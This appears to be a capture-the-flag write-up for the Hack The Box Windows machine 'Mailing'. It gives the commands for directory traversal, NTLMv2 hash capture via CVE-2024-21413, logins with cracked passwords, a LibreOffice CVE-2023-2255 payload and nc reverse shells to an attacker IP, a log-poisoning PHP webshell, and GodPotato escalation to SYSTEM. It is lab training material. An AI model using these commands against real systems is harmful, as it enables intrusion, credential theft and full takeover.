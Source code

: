 
## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
    
    - File‑read/dir‑traversal via `download.php`
    - CVE‑2024‑21413 Outlook/Windows Mail NTLMv2 capture
    - WinRM & SMB auth bypass
    - CVE‑2023‑2255 LibreOffice document RCE
    - Log‑poisoning → webshell include → GodPotato
        

**Open Ports:**  
[SMTP](https://chatgpt.com/c/SMTP) 25/tcp  
[HTTP](https://chatgpt.com/c/HTTP) 80/tcp  
[POP3](https://chatgpt.com/c/POP3) 110/tcp  
[IMAP](https://chatgpt.com/c/IMAP) 143/tcp  [IMAPS](https://chatgpt.com/c/IMAPS) 993/tcp  
[SMTPS](https://chatgpt.com/c/SMTPS) 465/tcp  [Submission](https://chatgpt.com/c/Submission) 587/tcp  
[SMB](https://chatgpt.com/c/SMB) 445/tcp  
[WinRM](https://chatgpt.com/c/WinRM) 5985/tcp

**Tools:**  
nmap, ffuf, feroxbuster, curl, smbclient, netexec, Responder, crackstation, hashcat, swaks, smtplib, evil‑winrm, nc, PowerShell, LibreOffice

---

## Recon 🔍

```bash
nmap -p- --min-rate 10000 10.10.11.14
nmap -p 25,80,110,135,139,143,445,465,587,993,5040,5985 -sCV 10.10.11.14
ffuf -u http://10.10.11.14 -H "Host: FUZZ.mailing.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
feroxbuster -u http://mailing.htb -x php,aspx
```

---

## Shell as maya 🐚

1. **Dir‑Traversal File Read**
    
    ```bash
    curl 'http://mailing.htb/download.php?file=../../windows/system32/drivers/etc/hosts'
    curl 'http://mailing.htb/download.php?file=../../Program+Files+(x86)/hMailServer/bin/hMailServer.ini'
    ```
    
2. **Crack hMailServer MD5** → `homenetworkingadministrator`
    
3. **SMTP Auth**
    
    ```bash
    swaks --auth-user 'administrator@mailing.htb' --auth LOGIN \
          --auth-password homenetworkingadministrator --quit-after AUTH --server mailing.htb
    ```
    
4. **CVE‑2024‑21413 NTLMv2 Capture**
    
    - Send malicious HTML email (Outlook/Windows Mail PoC)
        
    - Run Responder on tun0 → capture `maya` NTLMv2 hash
        
    - Crack with hashcat → `m4y4ngs4ri`
        
5. **SMB & WinRM Access**
    
    ```bash
    netexec smb mailing.htb -u maya -p m4y4ngs4ri  
    evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri  
    ```
    

---

## Shell as localadmin 👤

1. **Enumerate SMB Shares** → `Important Documents` (read/write)
    
2. **CVE‑2023‑2255 LibreOffice RCE**
    
    ```bash
    python CVE-2023-2255.py \
      --cmd 'cmd.exe /c C:\ProgramData\nc64.exe -e cmd.exe 10.10.14.6 443' \
      --output exploit.odt
    smbclient '//mailing.htb/Important Documents' -U maya -P m4y4ngs4ri \
      -c 'put exploit.odt; put /opt/nc.exe/nc64.exe'
    ```
    
3. **Deliver & Execute**
    
    ```ps1
    copy "\\Important Documents\exploit.odt" C:\Users\maya\Desktop
    # Open in LibreOffice → reverse shell back to attacker
    ```
    

---

## Shell as defaultapppool 🌐

1. **Log‑Poisoning Webshell**
    
    ```bash
    telnet mailing.htb 25
    HELO <?php system($_REQUEST['cmd']); ?>
    ```
    
2. **Include via download.php**
    
    ```bash
    curl 'http://mailing.htb/download.php?file=../../progra~2/hmailserver/logs/hmailserver_2024-09-05.log&cmd=\programdata\nc64.exe+10.10.14.6+443+-e+cmd.exe'
    ```
    
3. **Reverse Shell** → `iis apppool\defaultapppool`
    

---

## Shell as SYSTEM 👑

1. **GodPotato on SeImpersonatePrivilege**
    
    ```bash
    gp.exe -cmd "\programdata\nc64.exe -e cmd.exe 10.10.14.6 443"
    ```
    
2. **SYSTEM** → read `root.txt`
    

---

## Actions Learned 🎓

- Directory‐traversal to leak configs & source
    
- MD5 hash cracking for admin creds
    
- NTLMv2 capture via CVE‑2024‑21413 & Responder
    
- SMB/WinRM pivot with cracked creds
    
- LibreOffice macro RCE (CVE‑2023‑2255) via SMB share
    
- Log‑poisoning to plant PHP shell in hMailServer logs
    
- GodPotato exploitation of SeImpersonatePrivilege
    

---

## References 🔗

- CVE-2024-21413 Outlook/Windows Mail RCE PoC
    
- CVE-2023-2255 LibreOffice “floating frames” RCE
    
- hMailServer .ini format & defaults
    
- HackTricks: 7‑Zip/PowerShell wildcards & symlinks
    
- Responder & hashcat NTLMv2 cracking techniques
